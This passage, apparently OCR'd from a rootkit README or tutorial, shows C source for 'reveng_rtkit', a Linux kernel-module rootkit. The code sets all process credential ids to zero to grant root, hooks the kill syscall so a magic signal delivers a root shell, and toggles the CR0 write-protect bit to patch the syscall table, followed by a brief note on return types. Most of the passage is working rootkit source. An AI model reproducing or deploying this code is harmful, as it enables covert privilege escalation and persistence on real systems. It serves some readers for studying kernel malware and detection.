                     struct cred *root = prepare_creds();

                    if (root == NULL)
                    {
                      return;
                    }

                    // Updating ids to 0 i.e. root
                    root->uid.val = root->gid.val = 0;
                    root->euid.val = root->egid.val = 0;
                    root->suid.val = root->sgid.val = 0;
                    root->fsuid.val = root->fsgid.val = 0;

                    // Setting the updated value to cred structure
                    commit_creds(root);
                  }

                  static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
                  {
                    int sig = (int) pt_regs->si;
                    
                    switch (sig)
                    {
                      case GET_ROOT:
                        printk(KERN_INFO "[*] reveng_rtkit: From rootkit with love :)\t-> Offering root shell!!");
                        /*
                          In someway system() function alike kernel function present in linux kernel programming
                          is required. in order to execute bash/sh shell then grant root shell as fish shell (in my
                          case) was alloted a root shell, but bash/sh shell did the job.
                        */
                        set_root();
                        break;
                      default:
                        return orig_kill(pt_regs);
                    }
                    return 0;
                  }


                  static inline void write_cr0_forced(unsigned long val)
                  {
                    unsigned long __force_order;

                    asm volatile("mov %0, %%cr0" : "+r"(val), "+m"(__force_order));
                  }

                  static inline void protect_memory(void)
                  {
                    printk(KERN_INFO "[*] reveng_rtkit: (Memory protected): Regainig normal memory protection\n");
                    write_cr0_forced(cr0);	// Setting WP flag to 1 => read-only
                  }

                  static inline void unprotect_memory(void)
                  {
                    pr_info("[*] reveng_rtkit: (Memory unprotected): Ready for editing Syscall Table");
                    write_cr0_forced(cr0 & ~0x00010000);	// Setting WP flag to 0 => writable
                  }
                ```
                Here, the type of this function is `asmlinkage int`, actually it doesn't matter in this context, but it might in others.
                Syscalls are of type `long`, thus, when a user space program such as glibc depends on its return value, it expects a `long int`, if you feed it with `int`, things will go very wrong.
                Credit: [jm33.me/](https://jm33.me/linux-rootkit-for-fun-and-profit-0x02-lkm-hide-filesprocs.html)
                ```c
                // filename: Test_rtkit_kill.c
